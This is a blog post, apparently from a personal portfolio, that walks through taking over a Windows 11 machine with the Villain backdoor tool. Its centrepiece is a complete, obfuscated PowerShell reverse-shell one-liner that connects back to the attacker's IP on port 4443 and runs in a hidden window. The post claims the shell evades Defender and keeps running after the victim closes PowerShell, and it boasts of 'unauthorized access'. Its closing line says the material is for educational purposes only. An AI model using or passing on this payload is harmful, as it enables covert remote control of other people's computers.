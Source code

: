 ```yaml
---
title: Hacking Window 11
author: Radeel Ahmad
pubDatetime: 2022-07-05T02:05:51Z
featured: false
draft: false
tags:
  - hacking
  - window hacking
  - window 11
description: "Hacking Window 11 Using PowerShell Script"
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Windows 11 (victim machine)
- Villain (In Kali Machine)

## Let’s Start…..
Open Kali machine and open Firefox, then download the [**Villain**](https://github.com/t3l3machus/Villain).

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/1.png" alt="Wifi hacking">

Now, open Villain after downloading.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/2.png" alt="Wifi hacking">

Install the requirement for the tool using the following command.
```bash
pip3 install -r requirements.txt
```
After the installation, we start the villain.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/3.png" alt="Wifi hacking">

command: **python3 Villain.py**

## Important

The villain is a Windows and Linux backdoor generator and multi-session handler that allows users to connect with sibling servers (other machines running Villain) and share their backdoor sessions, which is handy for working as a team.

Villain has a built-in auto-obfuscate payload function to assist users bypassing AV solutions (for Windows payloads). As a result, payloads are undetected (for the time being).

## Victim side

We run the script in the Powers Shell of the victim’s system (Window 11 Pro)

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/4.png" alt="Wifi hacking">

```bash
Start-Process $PSHOME\powershell.exe -ArgumentList {$client = N''e""w-O'b'je"c"t System.Net.Sockets.TCPClient('YOUR IP',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N''e'w'-O''b""je'c't -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (i''e""x $data 2>&1 | O""u''t-S''t""ring );$sendback2 = $sendback + 'PS ' + (p""w''d).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()} -WindowStyle Hidden
```


In this script enter the IP of your kali machine by using `ifconfig` command you see the IP of kali machine.

Fully updated. Windows 11. Everything is turned on for Defender protection and the firewall. Please check the screenshots below for confirmation.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/5.png" alt="Wifi hacking">
<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/6.png" alt="Wifi hacking">

## In Kali Linux

After you enter the script, press Enter, and BOOM 🤯! Just kidding, nothing significant will happen on the victim’s machine. However, you will observe a session opening on your terminal.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/7.png" alt="Wifi hacking">

Here we can see `Session ID` — `IP Address` — `OS Type` — `User` — `Status`.

Using the `shell + session ID` command allows you to gain control over the victim’s computer andexecute various commands.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/8.png" alt="Wifi hacking">

We use `systeminfo` command to see the detail of victim’s machine.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/9.png" alt="Wifi hacking">

WE SUCCESSFULLY EXPLOIT VULNERABILITIES WITHIN THE WINDOWS 11 PRO OPERATING SYSTEM TO GAIN UNAUTHORIZED ACCESS 😈.

## Essential Things You Must Know ⚠

- If the victim closes the PowerShell, it won’t stop the reverse shell.
- The PowerShell command remains hidden and isn’t detected by Defender and other advanced antivirus programs.

---
Thank You for reading this article. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
